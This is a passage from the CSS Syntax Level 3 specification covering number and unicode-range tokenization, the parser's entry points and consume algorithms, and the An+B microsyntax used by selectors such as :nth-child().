
Execute the following steps in order:

1. Let *type* be the string "integer". Let *number part* and *exponent part* be the empty string.
2. If the next input code point is U+002B PLUS SIGN (+) or U+002D HYPHEN-MINUS (-), consume it. Append it to *number part* and set *sign character* to it.
3. While the next input code point is a digit, consume it and append it to *number part*.
4. If the next 2 input code points are U+002E FULL STOP (.) followed by a digit, then:

  1. Consume the next input code point and append it to *number part*.
  2. While the next input code point is a digit, consume it and append it to *number part*.
  3. Set *type* to "number".
5. If the next 2 or 3 input code points are U+0045 LATIN CAPITAL LETTER E (E) or U+0065 LATIN SMALL LETTER E (e), optionally followed by U+002D HYPHEN-MINUS (-) or U+002B PLUS SIGN (+), followed by a digit, then:

  1. Consume the next input code point.
  2. If the next input code point is "+" or "-", consume it and append it to *exponent part*.
  3. While the next input code point is a digit, consume it and append it to *exponent part*.
  4. Set *type* to "number".
6. Let *value* be the result of interpreting *number part* as a base-10 number.

   If *exponent part* is non-empty, interpret it as a base-10 integer, then raise 10 to the power of the result, multiply it by *value*, and set *value* to that result.
7. Return *value*, *type*, and *sign character*.

##### 4.3.14.  Consume a unicode-range token {#css-syntax-3:consume-unicode-range-token}

This section describes how to **consume a unicode-range token** from a stream of code points. It returns a `<unicode-range-token>`.

> **Note:** This algorithm does not do the verification of the first few code points that are necessary to ensure the returned code points would constitute an `<unicode-range-token>`. Ensure that the stream would start a unicode-range before calling this algorithm.

> **Note:** This token is not produced by the tokenizer under normal circumstances. This algorithm is only called during consume the value of a unicode-range descriptor, which itself is only called as a special case for parsing the `unicode-range` descriptor; this single invocation in the entire language is due to a bad syntax design in early CSS.

1. Consume the next two input code points and discard them.
2. Consume as many hex digits as possible, but no more than 6. If less than 6 hex digits were consumed, consume as many U+003F QUESTION MARK (?) code points as possible, but no more than enough to make the total of hex digits and U+003F QUESTION MARK (?) code points equal to 6.

   Let *first segment* be the consumed code points.
3. If *first segment* contains any question mark code points, then:

  1. Replace the question marks in *first segment* with U+0030 DIGIT ZERO (0) code points, and interpret the result as a hexadecimal number. Let this be *start of range*.
  2. Replace the question marks in *first segment* with U+0046 LATIN CAPITAL LETTER F (F) code points, and interpret the result as a hexadecimal number. Let this be *end of range*.
  3. Return a new `<unicode-range-token>` starting at *start of range* and ending at *end of range*.
4. Otherwise, interpret *first segment* as a hexadecimal number, and let the result be *start of range*.
5. If the next 2 input code points are U+002D HYPHEN-MINUS (-) followed by a hex digit, then:

  1. Consume the next input code point.
  2. Consume as many hex digits as possible, but no more than 6. Interpret the consumed code points as a hexadecimal number. Let this be *end of range*.
  3. Return a new `<unicode-range-token>` starting at *start of range* and ending at *end of range*.
6. Otherwise, return a new `<unicode-range-token>` both starting and ending at *start of range*.

##### 4.3.15.  Consume the remnants of a bad url {#css-syntax-3:consume-remnants-of-bad-url}

This section describes how to **consume the remnants of a bad url** from a stream of code points, "cleaning up" after the tokenizer realizes that it’s in the middle of a `<bad-url-token>` rather than a `<url-token>`. It returns nothing; its sole use is to consume enough of the input stream to reach a recovery point where normal tokenizing can resume.

Repeatedly consume the next input code point from the stream:

**U+0029 RIGHT PARENTHESIS ()) EOF**

: Return.

**the input stream starts with a valid escape**

: Consume an escaped code point. This allows an escaped right parenthesis ("\)") to be encountered without ending the `<bad-url-token>`. This is otherwise identical to the "anything else" clause.

**anything else**

: Do nothing.

### 5.  Parsing {#css-syntax-3:parsing}

The CSS parser converts a token stream (produced by the tokenization process, defined earlier in this spec) into one or more of several CSS constructs (depending on which parsing algorithm is invoked).

#### 5.1.  Parser Railroad Diagrams {#css-syntax-3:parser-diagrams}

*This section is non-normative.*

This section presents an informative view of the parser, in the form of railroad diagrams.

These diagrams are *informative* and *incomplete*; they describe the grammar of "correct" stylesheets, but do not describe error-handling at all. They are provided solely to make it easier to get an intuitive grasp of the syntax.

**Stylesheet**

**At-rule**

**Qualified rule**

**{} block**

**Declaration**

**!important**

**Component value**

**Simple block**

**Function block**

#### 5.2.  CSS Parsing Results {#css-syntax-3:css-tree}

The result of parsing can be any of the following (or lists of these):

****stylesheet****

: A stylesheet has a list of rules.

****rule****

: A rule is either an at-rule or a qualified rule.

**at-rule**

: An at-rule has a name which is a string, a prelude consisting of a list of component values. Block at-rules (ending in a {}-block) will additionally have a list of declarations and a list of child rules. (Statement at-rules, ending in a semicolon, will not.)

****qualified rule****

: A qualified rule has a prelude consisting of a list of component values, a list of declarations, and a list of child rules.

  > **Note:** Most qualified rules will be style rules, where the prelude is a selector [selectors-4] and its declarations are properties.

****declaration****

: A declaration has a name which is a string, a value consisting of a list of component values, and an *important* flag which is initially unset. It also has an optional *original text* which is a string (captured for only a few declarations).

  Declarations are further categorized as **property declarations** or **descriptor declarations**, with the former setting CSS properties and appearing most often in qualified rules and the latter setting CSS descriptors, which appear only in at-rules. (This categorization does not occur at the Syntax level; instead, it is a product of where the declaration appears, and is defined by the respective specifications defining the given rule.)

****component value****

: A component value is one of the preserved tokens, a function, or a simple block.

****preserved tokens****

: Any token produced by the tokenizer except for `<function-token>`s, <{-token>s, <(-token>s, and <[-token>s.

  > **Note:** The non-preserved tokens listed above are always consumed into higher-level objects, either functions or simple blocks, and so never appear in any parser output themselves.

  > **Note:** The tokens <}-token>s, <)-token>s, <]-token>, `<bad-string-token>`, and `<bad-url-token>` are always parse errors, but they are preserved in the token stream by this specification to allow other specs, such as Media Queries, to define more fine-grained error-handling than just dropping an entire declaration or block.

****function****

: A function has a name and a value consisting of a list of component values.

****simple block** **{}-block** **[]-block** **()-block****

: A simple block has an associated token (either a <[-token>, <(-token>, or <{-token>) and a value consisting of a list of component values.

  {}-block, []-block, and ()-block refer specifically to a simple block with that corresponding associated token.

#### 5.3.  Token Streams {#css-syntax-3:parser-definitions}

A **token stream** is a struct representing a stream of tokens and/or component values. It has the following items:

****tokens****

: A list of tokens and/or component values.

  > **Note:** This specification assumes, for simplicity, that the input stream has been fully tokenized before parsing begins. However, the parsing algorithms only use one token of "lookahead", so in practice tokenization and parsing can be done in lockstep.

****index****

: An index into the tokens, representing the progress of parsing. It starts at 0 initially.

  > **Note:** Aside from marking, the index never goes backwards. Thus the already-processed prefix of tokens can be eagerly discarded as it’s processed.

****marked indexes****

: A stack of index values, representing points that the parser might return to. It starts empty initially.

CSS has a small number of places that require referencing the precise text that was parsed for a declaration’s value (not just what tokens were produced from that text). This is not explicitly described in the algorithmic structure here, but the token stream must, thus, have the ability to reproduce the original text of declarations on demand. See consume a declaration for details on when this is required.

Several operations can be performed on a token stream:

****next token****

: The item of tokens at index.

  If that index would be out-of-bounds past the end of the list, it’s instead an `<eof-token>`.

****empty****

: A token stream is empty if the next token is an `<eof-token>`.

****consume a token****

: Let *token* be the next token. Increment index, then return *token*.

****discard a token****

: If the token stream is not empty, increment index.

****mark****

: Append index to marked indexes.

****restore a mark****

: Pop from marked indexes, and set index to the popped value.

****discard a mark****

: Pop from marked indexes, and do nothing with the popped value.

****discard whitespace****

: While the next token is a `<whitespace-token>`, discard a token.

****process****

: To process, given a following list of token types and associated actions, perform the action associated with the next token. Repeat until one of the actions returns something, then return that.

An **`<eof-token>`** is a conceptual token, not actually produced by the tokenizer, used to indicate that the token stream has been exhausted.

#### 5.4.  Parser Entry Points {#css-syntax-3:parser-entry-points}

The algorithms defined in this section produce high-level CSS objects from lists of CSS tokens.

The algorithms here operate on a token stream as input, but for convenience can also be invoked with a number of other value types.

To **normalize into a token stream** a given *input*:

1. If *input* is already a token stream, return it.
2. If *input* is a list of CSS tokens and/or component values, create a new token stream with *input* as its tokens, and return it.
3. If *input* is a string, then filter code points from *input*, tokenize the result, and return the stream of tokens.
4. Assert: Only the preceding types should be passed as *input*.

> **Note:** Other specs can define additional entry points for their own purposes.

> **Note:** The following notes should probably be translated into normative text in the relevant specs, hooking this spec’s terms:
>
> - "Parse a stylesheet" is intended to be the normal parser entry point, for parsing stylesheets.
> - "Parse a stylesheet’s contents" is intended for use by the `CSSStyleSheet replace()` method, and similar, which parse text into the contents of an existing stylesheet.
> - "Parse a rule" is intended for use by the `CSSStyleSheet insertRule()` method, and similar, which parse text into a single rule. `CSSStyleSheet#insertRule` method, and similar functions which might exist, which parse text into a single rule.
> - "Parse a declaration" is used in `@supports` conditions. [CSS3-CONDITIONAL]
> - "Parse a list of declarations" is intended for parsing anything that expects just a sequence of declaration, such as the HTML `style` attribute, and APIs such as `the CSSStyleDeclaration cssText attribute`.
> - "Parse a component value" is for things that need to consume a single value, like the parsing rules for `attr()`.
> - "Parse a list of component values" is for the contents of presentational attributes, which parse text into a single declaration’s value, or for parsing a stand-alone selector [SELECT] or list of Media Queries [MEDIAQ], as in [Selectors API](https://www.w3.org/TR/selectors-api/) or the `media` HTML attribute.

##### 5.4.1.  Parse something according to a CSS grammar {#css-syntax-3:parse-grammar}

It is often desirable to parse a string or token list to see if it matches some CSS grammar, and if it does, to destructure it according to the grammar. This section provides a generic hook for this kind of operation. It should be invoked like "parse *foo* as a CSS `<color>`", or similar.

This algorithm returns either failure, if the input does not match the provided grammar, or the result of parsing the input according to the grammar, which is an unspecified structure corresponding to the provided grammar specification. The return value must only be interacted with by specification prose, where the representation ambiguity is not problematic. If it is meant to be exposed outside of spec language, the spec using the result must explicitly translate it into a well-specified representation, such as, for example, by invoking a CSS serialization algorithm (like "serialize as a CSS `<string>` value").

> **Note:** This algorithm, and parse a comma-separated list according to a CSS grammar, are *usually* the only parsing algorithms other specs will want to call. The remaining parsing algorithms are meant mostly for [CSSOM] and related "explicitly constructing CSS structures" cases. Consult the CSSWG for guidance first if you think you need to use one of the other algorithms.

To **parse something according to a CSS grammar** (aka simply parse) given an *input* and a CSS *grammar* production:

1. Normalize *input*, and set *input* to the result.
2. Parse a list of component values from *input*, and let *result* be the return value.
3. Attempt to match *result* against *grammar*. If this is successful, return the matched result; otherwise, return failure.

##### 5.4.2.  Parse a comma-separated list according to a CSS grammar {#css-syntax-3:parse-comma-list}

While one can definitely parse a value according to a grammar with commas in it, if *any* part of the value fails to parse, the entire thing doesn’t parse, and returns failure.

Sometimes that’s what’s desired (such as in list-valued CSS properties); other times, it’s better to let each comma-separated sub-part of the value parse separately, dealing with the parts that parse successfully one way, and the parts that fail to parse another way (typically ignoring them, such as in ``).

This algorithm provides an easy hook to accomplish exactly that. It returns a list of values split by "top-level" commas, where each values is either failure (if it failed to parse) or the result of parsing (an unspecified structure, as described in the parse algorithm).

To **parse a comma-separated list according to a CSS grammar** (aka parse a list) given an *input* and a CSS *grammar* production:

1. Normalize *input*, and set *input* to the result.
2. If *input* contains only `<whitespace-token>`s, return an empty list.
3. Parse a comma-separated list of component values from *input*, and let *list* be the return value.
4. For each *item* of *list*, replace *item* with the result of parsing *item* with *grammar*.
5. Return *list*.

##### 5.4.3.  Parse a stylesheet {#css-syntax-3:parse-stylesheet}

To **parse a stylesheet** from an *input* given an optional url *location*:

1. If *input* is a byte stream for a stylesheet, decode bytes from *input*, and set *input* to the result.
2. Normalize *input*, and set *input* to the result.
3. Create a new stylesheet, with its location set to *location* (or null, if *location* was not passed).
4. Consume a stylesheet’s contents from *input*, and set the stylesheet’s rules to the result.

   > **Note:** Consume a stylesheet’s contents always consumes the entire stream.
5. Return the stylesheet.

##### 5.4.4.  Parse a stylesheet’s contents {#css-syntax-3:parse-stylesheet-contents}

To **parse a stylesheet’s contents** from *input*:

1. Normalize *input*, and set *input* to the result.
2. Consume a stylesheet’s contents from *input*, and return the result.

   > **Note:** Consume a stylesheet’s contents always consumes the entire stream.

##### 5.4.5.  Parse a list of declarations {#css-syntax-3:parse-list-of-declarations}

To **parse a list of declarations** from *input*:

1. Normalize *input*, and set *input* to the result.
2. Let *decls* be an empty list.
3. While *input* is not empty:

   Discard whitespace from *input*.

  - If the next token from *input* is a `<semicolon-token>`, discard a token from *input*.
  - Otherwise, if the next token from *input* is an `<at-keyword-token>`, consume an at-rule from *input* and discard the result.
  - Otherwise, consume a declaration. If anything was returned, append it to *decls*.
4. Return *decls*.

> **Note:** The entire stream is consumed by this algorithm.

##### 5.4.6.  Parse a rule {#css-syntax-3:parse-rule}

To **parse a rule** from *input*:

1. Normalize *input*, and set *input* to the result.
2. Discard whitespace from *input*.
3. If *input* is empty, return a syntax error.

   Otherwise, if the next token from *input* is an `<at-keyword-token>`, consume an at-rule from *input*, and let *rule* be the return value.

   Otherwise, consume a qualified rule from *input* and let *rule* be the return value. If nothing or an invalid rule error was returned, return a syntax error.
4. Discard whitespace from *input*.
5. If *input* is empty, return *rule*. Otherwise, return a syntax error.

##### 5.4.7.  Parse a declaration {#css-syntax-3:parse-declaration}

To **parse a declaration** from *input*:

1. Normalize *input*, and set *input* to the result.
2. Discard whitespace from *input*.
3. If *input* is empty, return a syntax error.
4. Consume a declaration from *input*. If anything was returned, let *value* be the return value. Otherwise, return a syntax error.
5. Discard whitespace from *input*.
6. If *input* is empty, return *value*. Otherwise, return a syntax error.

##### 5.4.8.  Parse a component value {#css-syntax-3:parse-component-value}

To **parse a component value** from *input*:

1. Normalize *input*, and set *input* to the result.
2. Discard whitespace from *input*.
3. If *input* is empty, return a syntax error.
4. Consume a component value from *input* and let *value* be the return value.
5. Discard whitespace from *input*.
6. If *input* is empty, return *value*. Otherwise, return a syntax error.

##### 5.4.9.  Parse a list of component values {#css-syntax-3:parse-list-of-component-values}

To **parse a list of component values** from *input*:

1. Normalize *input*, and set *input* to the result.
2. Consume a list of component values from *input*, and return the result.

> **Note:** The entire stream is consumed by this algorithm.

##### 5.4.10.  Parse a comma-separated list of component values {#css-syntax-3:parse-comma-separated-list-of-component-values}

To **parse a comma-separated list of component values** from *input*:

1. Normalize *input*, and set *input* to the result.
2. Let *groups* be an empty list.
3. While *input* is not empty:

  1. Consume a list of component values from *input*, with `<comma-token>` as the stop token, and append the result to *groups*.
  2. Discard a token from *input*.
4. Return *groups*.

> **Note:** The entire stream is consumed by this algorithm.

#### 5.5.  Parser Algorithms {#css-syntax-3:parser-algorithms}

The following algorithms comprise the parser. They are called by the parser entry points above, and generally should not be called directly by other specifications.

Note that CSS parsing is case-sensitive, and checking the validity of constructs in a given context must be done *during* parsing in at least some circumstances. This specification intentionally does not specify *how* sufficient context should be passed around to enable validity-checking.

##### 5.5.1.  Consume a stylesheet’s contents {#css-syntax-3:consume-stylesheet-contents}

To **consume a stylesheet’s contents** from a token stream *input*:

Let *rules* be an initially empty list of rules.

Process *input*:

**`<whitespace-token>`**

: Discard a token from *input*.

**`<EOF-token>`**

: Return *rules*.

**`<CDO-token>` `<CDC-token>`**

: Discard a token from *input*.

  > **Note:** What’s this for?
  >
  > Back when CSS was first being introduced, the `style` element was treated as an unknown element by older browsers. To avoid having its contents displayed in the page for these legacy browsers, it became common practice to wrap the stylesheet in an HTML comment, and newer browsers would simply ignore the HTML comment syntax. This requirement carries over to today, decades later.
  >
  > The same practice was done for `script` elements, where HTML comment syntax is treated as a line comment in JS (similar to `//`) for the same reason.

**`<at-keyword-token>`**

: Consume an at-rule from *input*. If anything is returned, append it to *rules*.

**anything else**

: Consume a qualified rule from *input*. If a rule is returned, append it to *rules*.

##### 5.5.2.  Consume an at-rule {#css-syntax-3:consume-at-rule}

To **consume an at-rule** from a token stream *input*, given an optional bool *nested* (default false):

Assert: The next token is an `<at-keyword-token>`.

Consume a token from *input*, and let *rule* be a new at-rule with its name set to the returned token’s value, its prelude initially set to an empty list, and no declarations or child rules.

Process *input*:

**`<semicolon-token>` `<EOF-token>`**

: Discard a token from *input*. If *rule* is valid in the current context, return it; otherwise return nothing.

**<}-token>**

: If *nested* is true:

  - If *rule* is valid in the current context, return it.
  - Otherwise, return nothing.

  Otherwise, consume a token and append the result to *rule*’s prelude.

**<{-token>**

: Consume a block from *input*, and assign the result to *rule*’s child rules.

  > **Note:** If the result contains lists of declarations, how they’re materialized in the CSSOM depends on the rule. Some turn them all into nested declarations rules, others will treat them all as declarations, and others will treat the first item differently from the rest.

  If *rule* is valid in the current context, return it. Otherwise, return nothing.

**anything else**

: Consume a component value from *input* and append the returned value to *rule*’s prelude.

##### 5.5.3.  Consume a qualified rule {#css-syntax-3:consume-qualified-rule}

To **consume a qualified rule**, from a token stream *input*, given an optional token *stop token* and an optional bool *nested* (default false):

Let *rule* be a new qualified rule with its prelude, declarations, and child rules all initially set to empty lists.

Process *input*:

**`<EOF-token>` *stop token* (if passed)**

: This is a parse error. Return nothing.

**<}-token>**

: This is a parse error. If *nested* is true, return nothing. Otherwise, consume a token and append the result to *rule*’s prelude.

**<{-token>**

: If the first two non-`<whitespace-token>` values of *rule*’s prelude are an `<ident-token>` whose value starts with "--" followed by a `<colon-token>`, then:

  - If *nested* is true, consume the remnants of a bad declaration from *input*, with *nested* set to true, and return nothing.
  - If *nested* is false, consume a block from *input*, and return nothing.

  > **Note:** What’s this check for?
  >
  > Declarations and qualified rules don’t *generally* overlap in their allowed syntax. No currently-defined CSS property allows {}-blocks in its value, so `foo:bar {};` is definitely a rule, and `foo: bar;` is definitely a property. Even if a future CSS property allows {}-blocks in its value, the allowed syntax is restricted to the {}-block being the whole value, such as `foo: {...};`, which is guaranteed to not be a valid rule, since the `:` doesn’t have an ident or function following it to mark it as a pseudo-class.
  >
  > This allows us to mix declarations and rules in the same context: we first try to parse something as a declaration, and if that doesn’t result in a valid declaration, we reparse it as a rule instead. An accidentally-invalid declaration will parse as a rule instead, but that’s fine: the parser will stop at the declaration’s ending semicolon and consider it an invalid rule. (Or in the case of a property containing a {}-block, will stop just *before* the semicolon, still considering it an invalid rule, and then the next attempt to parse something will throw out the lone semicolon as invalid.) So the total amount of tokens consumed is the same regardless.
  >
  > Custom properties, however, don’t have the CSSWG carefully vetting their syntax. Authors *can* write a custom property that takes a {}-block in its value, even combined with other things; if that custom property is then invalid (due to an invalidly-written `var()` function, for example), when it’s reparsed as a rule it will stop early, at the {}-block. The remaining tokens of the custom property’s value will then get parsed as a fresh construct, potentially causing unexpected declarations or rules to be created.
  >
  > To avoid this (admittedly very niche) corner-case, we subtract the syntax of a custom property from that of a qualified rule; if you’re in a context that allows properties and rules to be mixed, and you somehow end up parsing a rule that looks like a custom property, you’ve messed up, and need to instead consume an entire custom property (all the way to the ending semicolon).
  >
  > (If we’re in a context that doesn’t allow properties, we just throw away the rule if it looks like a custom property. This ensures that `--foo:hover { color: blue; }` is consistently invalid everywhere, without potentially consuming a ton of a stylesheet looking for the non-existent ending semicolon.)

  Otherwise, consume a block from *input*, and let *child rules* be the result. If the first item of *child rules* is a list of declarations, remove it from *child rules* and assign it to *rule*’s declarations. If any remaining items of *child rules* are lists of declarations, replace them with nested declarations rules containing the list as its declarations. Assign *child rules* to *rule*’s child rules.

  If *rule* is valid in the current context, return it; otherwise return an **invalid rule error**.

**anything else**

: Consume a component value from *input* and append the result to *rule*’s prelude.

##### 5.5.4.  Consume a block {#css-syntax-3:consume-block}

To **consume a block**, from a token stream *input*:

Assert: The next token is a <{-token>.

Discard a token from *input*. Consume a block’s contents from *input* and let *rules* be the result. Discard a token from *input*.

Return *rules*.

##### 5.5.5.  Consume a block’s contents {#css-syntax-3:consume-block-contents}

To **consume a block’s contents** from a token stream *input*:

> **Note:** This algorithm returns a list, consisting of rules and lists of declarations. Depending on the parent context, a list of declarations might be materialized in the CSSOM as either a `CSSStyleDeclaration`, or as a `CSSNestedDeclarations` rule.

Let *rules* be an empty list, containing either rules or lists of declarations.

Let *decls* be an empty list of declarations.

Process *input*:

**`<whitespace-token>` `<semicolon-token>`**

: Discard a token from *input*.

**`<EOF-token>` <}-token>**

: Return *rules*.

**`<at-keyword-token>`**

: If *decls* is not empty, append it to *rules*, and set *decls* to a fresh empty list of declarations.

  Consume an at-rule from *input*, with *nested* set to true. If a rule was returned, append it to *rules*.

**anything else**

: Mark *input*.

  Consume a declaration from *input*, with *nested* set to true. If a declaration was returned, append it to *decls*, and discard a mark from *input*.

  Otherwise, restore a mark from *input*, then consume a qualified rule from *input*, with *nested* set to true, and `<semicolon-token>` as the *stop token*.

  **If nothing was returned**

  : Do nothing

  **If an invalid rule error was returned**

  : If *decls* is not empty, append *decls* to *rules*, and set *decls* to a fresh empty list of declarations. (Otherwise, do nothing.)

  **If a rule was returned**

  : If *decls* is not empty, append *decls* to *rules*, and set *decls* to a fresh empty list of declarations. Append the rule to *rules*.

> **Note:** Implementation note
>
> This spec, as with many CSS specs, has been written to prioritize understandability over efficiency. A number of algorithms, notably the above "parse as a declaration, then parse as a rule" behavior can be fairly inefficient if implemented naively as described.
>
> However, the behavior has been carefully written to allow "early exits" as much as possible. In particular, and roughly in order of when the exit can occur:
>
> - If the first non-whitespace token isn’t an `<ident-token>` for a recognized property name (or a custom property name), you can immediately stop parsing as a declaration and reparse as a rule instead. If the *next* non-whitespace token isn’t a `<colon-token>`, you can similarly immediately stop parsing as a declaration.
>
>   (That is, `font+ ...` is guaranteed to not be a property, nor is `not-a-prop-name: ...`.)
> - If the first two non-whitespace tokens are a custom property name and a colon, it’s definitely a custom property and won’t ever produce a valid rule, so even if the custom property ends up invalid there’s no need to try and reparse as a rule.
>
>   (That is, `--foo:hover {...}` is guaranteed to be a custom property, not a rule.)
> - If the first three non-whitespace tokens are a valid property name, a colon, and anything other than a `<{-token>`, and then while parsing the declaration’s value you encounter a <{-token>, you can immediately stop parsing as a declaration and reparse as a rule instead.
>
>   (That is, `font:bar {...` is guaranteed to be an invalid property.)
> - If you see a recognized property name, a colon, and a {}-block, but the first non-whitespace tokens following that block isn’t either immediately the final semicolon, or the !important followed by the semicolon, you can immediately stop parsing as a declaration and reparse as a rule instead.
>
>   (That is, `font: {} bar ...` is guaranteed to be an invalid property; you don’t need to keep parsing until you hit a semicolon.)
>
> Similarly, even tho the parsing requirements are specified to rely on checking the grammar of the declarations as you parse, a *generic* processor trying to implement a non-CSS language on top of the generic CSS *syntax* can still get away with just verifying that declarations start with an ident, a colon, and then either contain solely a {}-block or no {}-block at all. They’ll just spent a little more time on parsing than an implementation with grammar knowledge in cases like `foo:hover ... {}`, since they can’t early-exit on the first token.

##### 5.5.6.  Consume a declaration {#css-syntax-3:consume-declaration}

To **consume a declaration** from a token stream *input*, given an optional bool *nested* (default false):

Let *decl* be a new declaration, with an initially empty name and a value set to an empty list.

1. If the next token is an `<ident-token>`, consume a token from *input* and set *decl*'s name to the token’s value.

   Otherwise, consume the remnants of a bad declaration from *input*, with *nested*, and return nothing.
2. Discard whitespace from *input*.
3. If the next token is a `<colon-token>`, discard a token from *input*.

   Otherwise, consume the remnants of a bad declaration from *input*, with *nested*, and return nothing.
4. Discard whitespace from *input*.
5. Consume a list of component values from *input*, with *nested*, and with `<semicolon-token>` as the stop token, and set *decl*’s value to the result.
6. If the last two non-`<whitespace-token>`s in *decl*’s value are a `<delim-token>` with the value "!" followed by an `<ident-token>` with a value that is an ASCII case-insensitive match for "important", remove them from *decl*’s value and set *decl*’s *important* flag.
7. While the last item in *decl*’s value is a `<whitespace-token>`, remove that token.
8. If *decl*’s name is a custom property name string, then set *decl*’s *original text* to the segment of the original source text string corresponding to the tokens of *decl*’s value.

   Otherwise, if *decl*’s value contains a top-level simple block with an associated token of `<{-token>`, and also contains *any other* non-`<whitespace-token>` value, return nothing. (That is, a top-level {}-block is only allowed as the entire value of a non-custom property.)

   Otherwise, if *decl*’s name is an ASCII case-insensitive match for "unicode-range", consume the value of a unicode-range descriptor from the segment of the original source text string corresponding to the tokens returned by the consume a list of component values call, and replace *decl*’s value with the result.
9. If *decl* is valid in the current context, return it; otherwise return nothing.

To **consume the remnants of a bad declaration** from a token stream *input*, given a bool *nested*:

Process *input*:

**`<eof-token>` `<semicolon-token>`**

: Discard a token from *input*, and return nothing.

**<}-token>**

: If *nested* is true, return nothing. Otherwise, discard a token.

**anything else**

: Consume a component value from *input*, and do nothing.

##### 5.5.7.  Consume a list of component values {#css-syntax-3:consume-list-of-components}

To **consume a list of component values** from a token stream *input*, given an optional token *stop token* and an optional boolean *nested* (default false):

Let *values* be an empty list of component values.

Process *input*:

**`<eof-token>` *stop token* (if passed)**

: Return *values*.

**<}-token>**

: If *nested* is true, return *values*.

  Otherwise, this is a parse error. Consume a token from *input* and append the result to *values*.

**anything else**

: Consume a component value from *input*, and append the result to *values*.

##### 5.5.8.  Consume a component value {#css-syntax-3:consume-component-value}

To **consume a component value** from a token stream *input*:

Process *input*:

**<{-token> <[-token> <(-token>**

: Consume a simple block from *input* and return the result.

**`<function-token>`**

: Consume a function from *input* and return the result.

**anything else**

: Consume a token from *input* and return the result.

##### 5.5.9.  Consume a simple block {#css-syntax-3:consume-simple-block}

To **consume a simple block** from a token stream *input*:

Assert: the next token of *input* is <{-token>, <[-token>, or <(-token>.

Let *ending token* be the mirror variant of the next token. (E.g. if it was called with <[-token>, the *ending token* is <]-token>.)

Let *block* be a new simple block with its associated token set to the next token and with its value initially set to an empty list.

Discard a token from *input*.

Process *input*:

**`<eof-token>` *ending token***

: Discard a token from *input*. Return *block*.

**anything else**

: Consume a component value from *input* and append the result to *block*’s value.

##### 5.5.10.  Consume a function {#css-syntax-3:consume-function}

To **consume a function** from a token stream *input*:

Assert: The next token is a `<function-token>`.

Consume a token from *input*, and let *function* be a new function with its name equal the returned token’s value, and a value set to an empty list.

Process *input*:

**`<eof-token>` <)-token>**

: Discard a token from *input*. Return *function*.

**anything else**

: Consume a component value from *input* and append the result to *function*’s value.

##### 5.5.11.  Consume a `unicode-range` value {#css-syntax-3:consume-unicode-range-value}

To **consume the value of a unicode-range descriptor** from a string *input string*:

1. Let *tokens* be the result of tokenizing *input string* with *unicode ranges allowed* set to true.
2. Consume a list of component values from *tokens*, and return the result.

> **Note:** The existence of this algorithm is due to a design mistake in early CSS. It should never be reproduced.

### 6.  The *An+B* microsyntax {#css-syntax-3:anb-microsyntax}

Several things in CSS, such as the `:nth-child()` pseudoclass, need to indicate indexes in a list. The *An+B* microsyntax is useful for this, allowing an author to easily indicate single elements or all elements at regularly-spaced intervals in a list.

The **An+B** notation defines an integer step (*A*) and offset (*B*), and represents the *An+B*th elements in a list, for every positive integer or zero value of *n*, with the first element in the list having index 1 (not 0).

For values of *A* and *B* greater than 0, this effectively divides the list into groups of *A* elements (the last group taking the remainder), and selecting the *B*th element of each group.

The *An+B* notation also accepts the `even` and `odd` keywords, which have the same meaning as `2n` and `2n+1`, respectively.

> **Example:** s:
>
> ```
> 2n+0   /* represents all of the even elements in the list */
> even   /* same */
> 4n+1   /* represents the 1st, 5th, 9th, 13th, etc. elements in the list */
> ```

The values of *A* and *B* can be negative, but only the positive results of *An+B*, for *n* ≥ 0, are used.

> **Example:** ```
> -1n+6   /* represents the first 6 elements of the list */
> -4n+10  /* represents the 2nd, 6th, and 10th elements of the list */
> ```

If both *A* and *B* are 0, the pseudo-class represents no element in the list.

#### 6.1.  Informal Syntax Description {#css-syntax-3:anb-syntax}

*This section is non-normative.*

When *A* is 0, the *An* part may be omitted (unless the *B* part is already omitted). When *An* is not included and *B* is non-negative, the `+` sign before *B* (when allowed) may also be omitted. In this case the syntax simplifies to just *B*.

> **Example:** s:
>
> ```
> 0n+5   /* represents the 5th element in the list */
> 5      /* same */
> ```

When *A* is 1 or -1, the `1` may be omitted from the rule.

> **Example:** s:
>
> The following notations are therefore equivalent:
>
> ```
> 1n+0   /* represents all elements in the list */
> n+0    /* same */
> n      /* same */
> ```

If *B* is 0, then every *A*th element is picked. In such a case, the *+B* (or *-B*) part may be omitted unless the *A* part is already omitted.

> **Example:** s:
>
> ```
> 2n+0   /* represents every even element in the list */
> 2n     /* same */
> ```

When B is negative, its minus sign replaces the `+` sign.

> **Example:** Valid example:
>
> ```
> 3n-6
> ```
>
> Invalid example:
>
> ```
> 3n + -6
> ```

Whitespace is permitted on either side of the `+` or `-` that separates the *An* and *B* parts when both are present.

> **Example:** Valid Examples with white space:
>
> ```
> 3n + 1
> +3n - 2
> -n+ 6
> +6
> ```
>
> Invalid Examples with white space:
>
> ```
> 3 n
> + 2n
> + 2
> ```

#### 6.2.  The `<a-n-plus-b>` type {#css-syntax-3:the-anb-type}

The *An+B* notation was originally defined using a slightly different tokenizer than the rest of CSS, resulting in a somewhat odd definition when expressed in terms of CSS tokens. This section describes how to recognize the *An+B* notation in terms of CSS tokens (thus defining the *<a-n-plus-b>* type for CSS grammar purposes), and how to interpret the CSS tokens to obtain values for *A* and *B*.

The *<a-n-plus-b>* type is defined (using the [Value Definition Syntax in the Values & Units spec](#css-values-4:value-defs)) as:

```css
<a-n-plus-b> =
  odd | even |
  <integer> |

  <n-dimension> |
  '+'?† n |
  -n |

  <ndashdigit-dimension> |
  '+'?† <ndashdigit-ident> |
  <dashndashdigit-ident> |

  <n-dimension> <signed-integer> |
  '+'?† n <signed-integer> |
  -n <signed-integer> |

  <ndash-dimension> <signless-integer> |
  '+'?† n- <signless-integer> |
  -n- <signless-integer> |

  <n-dimension> ['+' | '-'] <signless-integer> |
  '+'?† n ['+' | '-'] <signless-integer> |
  -n ['+' | '-'] <signless-integer>
```

where:

- **`<n-dimension>`** is a `<dimension-token>` with its type flag set to "integer", and a unit that is an ASCII case-insensitive match for "n"
- **`<ndash-dimension>`** is a `<dimension-token>` with its type flag set to "integer", and a unit that is an ASCII case-insensitive match for "n-"
- **`<ndashdigit-dimension>`** is a `<dimension-token>` with its type flag set to "integer", and a unit that is an ASCII case-insensitive match for "n-*", where "*" is a series of one or more digits
- **`<ndashdigit-ident>`** is an `<ident-token>` whose value is an ASCII case-insensitive match for "n-*", where "*" is a series of one or more digits
- **`<dashndashdigit-ident>`** is an `<ident-token>` whose value is an ASCII case-insensitive match for "-n-*", where "*" is a series of one or more digits
- **`<integer>`** is a `<number-token>` with its type flag set to "integer"
- **`<signed-integer>`** is a `<number-token>` with its type flag set to "integer", and a sign character
- **`<signless-integer>`** is a `<number-token>` with its type flag set to "integer", and no sign character

